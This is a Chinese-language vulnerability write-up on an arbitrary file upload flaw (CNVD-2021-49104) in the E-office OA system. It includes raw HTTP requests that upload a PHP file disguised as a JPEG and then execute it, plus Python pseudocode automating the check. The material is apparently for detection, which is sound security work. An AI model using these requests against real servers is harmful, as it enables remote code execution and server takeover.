

# Pan 微 E-office 任意文件上传漏洞（CNVD-2021-49104）

## 漏洞简介
Pan 微 E-office 存在任意文件上传漏洞，远程攻击者可通过特定接口上传恶意 PHP 文件，进而在服务器上执行任意代码，危害极大。

## 影响范围
- 受影响产品：Pan 微 E-office
- 影响版本：未加固的相关版本

## 漏洞原理
系统未对上传文件类型和内容做有效校验，攻击者可通过 `UploadFile.php` 接口上传 PHP 脚本，随后通过 Web 路径访问并执行该脚本，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=` 上传恶意 PHP 文件。
2. 上传成功后，访问 `/images/logo/logo-eoffice.php` 路径，触发恶意代码执行。

## 探测原理与流程
### 请求包示例
1. 上传 PHP 文件：
```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php echo md5("teststring");?>
--e64bdf16c554bbc109cecef6451c26a4--
```
2. 访问上传的 PHP 文件：
```http
GET /images/logo/logo-eoffice.php HTTP/1.1
Host: target.com
```

### 响应与判定逻辑
- 响应体包含上传 PHP 文件输出的 md5 值（如 `94d01a2324ce38a2e29a629c54190f67`）。
- 响应状态码为 200。

### 伪代码
```python
# 步骤1：上传 PHP 文件
files = {'Filedata': ('test.php', '<?php echo md5("teststring");?>', 'image/jpeg')}
requests.post('http://target.com/general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=', files=files)
# 步骤2：访问上传的 PHP 文件
resp = requests.get('http://target.com/images/logo/logo-eoffice.php')
if resp.status_code == 200 and '94d01a2324ce38a2e29a629c54190f67' in resp.text:
    print('存在任意文件上传漏洞')
```

### Mermaid 流程图


## 参考链接
- [漏洞分析与利用](https://chowdera.com/2021/12/202112200602130067.html)
- [Pan 微 E-office 官网](http://v10.e-office.cn) 